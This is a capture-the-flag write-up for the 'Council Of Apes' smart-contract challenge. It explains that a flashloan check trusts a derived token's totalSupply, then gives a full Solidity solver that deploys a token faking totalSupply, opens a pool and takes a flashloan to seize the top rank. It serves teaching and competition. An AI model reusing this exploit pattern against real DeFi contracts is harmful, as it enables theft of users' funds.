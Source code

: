 ## Weakness  
The Council Of Apes group of contracts is represented in the task.  
The task is to get the Alpha rank in a minor contract. For this purpose, it is
necessary to get many protocol tokens. Among the protocol contracts, there is
a pool contract for swap operations, as well as the ability to do flashLoan.  
The Pool consists of a derived token and a protocol token.  
Flashloan checks, has security mechanisms, including checking the ratio in the
pool and checking the totalSupply in the derived token contract.

The weakness is that the totalSupply of the derived token cannot be trusted,
as it may not be equal to the current token emission.

## Exploit

```solidity  
// SPDX-License-Identifier: UNLICENSED  
pragma solidity ^0.8.13;

import "forge-ctf/CTFSolver.sol";  
import "forge-std/console.sol";  
import "forge-std/Vm.sol";  
import "src/Setup.sol";

contract ShyToken is TotallyNotCopiedToken {  
   constructor(address _owner, string memory _name, string memory _symbol)
TotallyNotCopiedToken(_owner, _name, _symbol) {  
   }  
   function totalSupply() public view override returns (uint256) {  
       return 1337;  
   }  
}

contract Exploit {  
   Setup target;  
   IcyExchange exchange;  
   CouncilOfApes council;  
   TotallyNotCopiedToken token;  
   TotallyNotCopiedToken icyToken;

   constructor(Setup _target, IcyExchange _exchange, CouncilOfApes _council) {  
       target = _target;  
       exchange = _exchange;  
       council = _council;  
       token = new ShyToken(address(this), "Shy token", "SHY");  
       icyToken = exchange.icyToken();  
   }  
   function exploit() public payable {  
       // Become an ape  
       council.becomeAnApe(  
           keccak256("I hereby swear to ape into every shitcoin I see, to never sell, to never surrender, to never give up, to never stop buying, to never stop hodling, to never stop aping, to never stop believing, to never stop dreaming, to never stop hoping, to never stop loving, to never stop living, to never stop breathing")  
       );  
       // Create pool with our token  
       token.approve(address(exchange), type(uint256).max);  
       icyToken.approve(address(exchange), type(uint256).max);  
       icyToken.approve(address(council), type(uint256).max);  
       exchange.createPool{value: 1 ether}(address(token));  
       IcyPool pool = exchange.getPool(address(token));  
       exchange.collateralizedFlashloan(address(token), 100000000000000, address(this));

   }

   function receiveFlashLoan(uint256 amount) external payable {  
       council.buyBanana(1_000_000_000);  
       council.vote(address(this), 1_000_000_000);  
       council.claimNewRank();  
       council.issueBanana(1_000_000_000, address(this));  
       council.sellBanana(1_000_000_000);  
       council.dissolveCouncilOfTheApes(  
           keccak256("Kevin come out of the basement, dinner is ready.")  
       );  
   }  
}

contract Solve is CTFSolver {  
   function solve(address challenge, address player) internal override {  
       Setup setup = Setup(challenge);  
       IcyExchange exchange = setup.TARGET();  
       CouncilOfApes council = exchange.council();  
       TotallyNotCopiedToken icyToken = exchange.icyToken();  
       vm.label(address(exchange), "exchange");  
       vm.label(address(council), "council");  
       vm.label(address(icyToken), "icyToken");

       // Setup  
       Exploit exploit = new Exploit(setup, exchange, council);  
       vm.label(address(exploit), "exploit");

       // Exploit  
       exploit.exploit{value: 1 ether}();  
       console.log("isSolved", setup.isSolved());  
   }  
}  
```
